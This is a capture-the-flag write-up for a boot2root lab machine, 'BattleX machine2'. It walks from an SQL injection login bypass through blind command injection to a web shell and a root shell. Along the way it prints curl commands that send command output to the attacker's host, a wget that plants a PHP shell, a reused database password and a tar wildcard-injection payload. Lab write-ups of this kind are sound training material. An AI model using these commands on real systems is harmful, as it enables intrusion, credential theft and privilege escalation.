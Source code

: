 ## BattleX CTF: machine2 
#### Category: Boot2Root
#### Score: 110
#### Number of Solves: 5 [First Blood 🩸] 
#### Machine name
### Description

> Ready to go

###  TL; DR

Exploit command injection to password reuse to wildcard injection on sudo tar to gain root access

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 21:47 WAT
Nmap scan report for 10.10.27.9
Host is up (0.63s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Big Hacking Book Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 21.00 seconds
```

### Exploring

![Imgur](https://i.imgur.com/vxHYIir.png)

_front page_

Nothing much in the source code, just links to a login page and register page that didn't exist

![Imgur](https://i.imgur.com/7AYjkla.png)

_Login page_

Since there was no registration page and I didn't want to fuzz for files or directories, I tried a basic SQL injection to bypass the login page, and it worked.

```
Username: '--
Password: '
```
Login page bypassed and greeted by a ping system in /pingsystem.php .

![Imgur](https://i.imgur.com/lsA4hKP.png)

This will likely be vulnerable to command injection, I just have to find a way to trigger it. 

![Imgur](https://i.imgur.com/tz2d93t.png)

My form data was 

```
127.0.0.1; sleep 5
```

After several trials of techniques, I found the one that works. 

```
127.0.0.1 `sleep 5`
```

The result didn't show, but the delay was sure executed by the system and I concluded it was vulnerable to blind command injection.

### Exploiting 

I proceeded to host a http server to get a result from my blind command injection. That way, it will be easy for me to exploit the server.

With some Python scripting and tweaking, I got an insight of the directory structure, current user and id

```
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(ls -lah)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(pwd)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(whoami)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(id)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(wget -O images/exploit.php http://MY_IP:8090/ex.php)" http://MY_IP:8080/`
```

![own](https://i.imgur.com/bBqJg6t.png)

I let the server wget my php shell to the /images folder since I can write there (I tried with the current directory and it didn't work)

![Imgur](https://i.imgur.com/TIWTlQX.png)

With my netcat listening. I got shell

![Imgur](https://i.imgur.com/ZHlh9ck.png)

### Escalating privileges

```
www-data@BattleX:/var/www/html$ cat db.php
cat db.php
<?php
// db.php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$servername = "localhost";
$username = "hacksparo";
$password = "hacksparoisthebest123";
$dbname = "books";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
?>
```

There's a credential in the db.php. It is totally possible for this credential to be used for an actual user in the system. 

```
www-data@BattleX:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[snip]
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[snip]
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
hacksparo:x:1000:1000:,,,:/home/hacksparo:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
```
Sure, there's a user hacksparo in the system. I upgraded my shell to a python spawned one so I can try out the credentials.

![Imgur](https://i.imgur.com/1sGZp3s.png)

I am hacksparo, time to get flag. 

```
hacksparo@BattleX:~$ cat user.txt
cat user.txt
BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}
```
User flag: `BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}` 

### Getting root access

```
hacksparo@BattleX:~$ sudo -l
sudo -l
Matching Defaults entries for hacksparo on BattleX:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksparo may run the following commands on BattleX:
    (ALL) NOPASSWD: /bin/bash /opt/backup/backup.sh
```

With `sudo -l`, I can get if hacksparo can run sudo generally or only on one or two commands, sure enough, hacksparo can only run this specific command `sudo /bin/bash /opt/backup/backup.sh` on the machine. 

```
hacksparo@BattleX:~$ cat /opt/backup/backup.sh
#this is a test

sudo tar -cf backup.tar *
```
I can't alter the script to change its content but I can only run it. `tar` can be exploited to gain access. The exploit I will be applying is known as wildcard injection.

```bash
echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Running that and `sudo /bin/bash /opt/backup/backup.sh` will copy bash from /bin/ directory to my current direcotry and set suid bit to it. 

```
hacksparo@BattleX:~$ echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh
hacksparo@BattleX:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
hacksparo@BattleX:~$ echo "" > --checkpoint=1
hacksparo@BattleX:~$ ls
'--checkpoint=1'  '--checkpoint-action=exec=sh shell.sh'   shell.sh   user.txt
```

![Imgur](https://i.imgur.com/39rdvXd.png)

success, now I can run `./bash -p` and get root access

![Imgur](https://i.imgur.com/Ti6Q0M6.png)

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}
```
Root flag: `BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}`

![Not bad meme](https://media1.tenor.com/m/pK9Gkdmh-mAAAAAC/notbad-soccer.gif)

Not bad.
